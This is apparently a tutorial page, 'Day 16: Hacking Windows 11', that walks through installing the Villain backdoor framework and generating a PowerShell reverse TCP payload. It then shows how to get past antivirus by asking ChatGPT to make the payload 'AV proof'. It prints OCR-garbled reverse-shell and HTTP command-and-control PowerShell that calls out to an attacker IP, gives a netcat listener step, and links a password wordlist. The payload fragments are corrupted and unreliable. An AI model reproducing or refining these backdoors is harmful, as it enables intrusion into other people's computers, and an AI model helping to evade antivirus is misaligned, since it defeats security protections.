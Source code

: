 # ♦ Day 16
</br>
</br>

## ◙ ***Note***
 </br>
  There is an update in rockyou.txt file containing a far better number of word combinations 
  </br>
  
  ⇨ [Rockyou.txt](https://github.com/hkphh/rockyou2024.txt)
 </br>
# ♦ Hacking Windows 11 :
   ***• Introducing Villan Framework***
   </br>
      Villain is a Windows & Linux backdoor generator and multi-session handler that allows users to connect with sibling servers (other machines running Villain) and share their backdoor sessions, handy for working as a team. [Villan](https://github.com/keralahacker/Villain/)
   </br>
   ⇨ In this Sessioin we will be learning to how to use Villan framework to get into OR Hack a Windows 11 device 
   </br>
   </br>
### ◙ Step-By-Step Guide 
</br >

### • 1. Installation of Villan Framework :

    git clone https://github.com/t3l3machus/Villain
    cd ./Villain
    pip3 install -r requirements.txt

• Now add the x parameter in the file and exicute it:

    chmod +x villan.py

• Now exicute with python

    python3 villan.py

> For details use "help" command


### • 2. Generate a paylaod : 

 To understand how to generate a paylaod we will use the command 

    help generate

• Generate a paylaod from the example for the wwindows

    generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 encode

 Now try runing the generated payload in powershell

</br>

***◙ Improving the Payload***
 As we can see that the paylaod has been shot down by the AV so we have to do some changes in tht so it can't be detected by the AV.
 </br>
  </br>
 • For doingb such changes we will be using Our beloved ***"CHAT GPT"*** in such a manner >
  </br>

 ### • 1. Step 1
      >give the payload< analyse this code and modify the code to be more AV proof need this code in ps1 file

</br>

 ### • 2. Step 2
       "Start-Process SPSHOME\powershell.exe -ArgumentList {$client = New-Object System.Net.Sockets.TCPClientC172.29.234.6?,4443);$stream = $client.GetStream();[byte0)$bytes = $stream.Read($bytes, O, $bytes.Length)) -ne O)(;$data = (New-Object -TypeName = (iex $data 2>&1 | Out-String );$sendback2 = Ssendback + 'PS • + (pwd).Path + ';Ssendbyte = -WindowStyle Hidden"

 </br>

  ### • 3. Step 3
          "Start-Process SPSHOME\powershell.exe -ArgumentList {$s="SERVERlP•••$i='*SESSlONlD•••$p='http•JT;Sv=lnvoke-RestMethod -UseBasicParsing -Uri -Headers (Strue){$c=(lnvoke-RestMethod -UseBasicParsing -Uri Sp$s/ -Headers (Sc -ne 'None') {$r=lnvoke-Expression Sc -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$x=lnvoke-RestMethod -Uri -Method POST -Headers -Body -join ' sleep *FREQ'}} -WindowStyle Hidden"

</br>

 ### • 4. Step 4
         "Replace the placeholders like 'SERVERlP' and '*SESSIONlD' with actual endpoint paths and IDs before executing the script. Remove all those above and now I am using netcat to connect with the TCP connection."


#♦ Connect Via Netcat :
</br> 
### • 1. Open a new tab and start the netcat listener in that terminasl.

    nc -lvnp <port no>

  And now open the .ps1 file in powershell.

If any other problem occurs try using AI and other gpt's to further improve or debug your payload
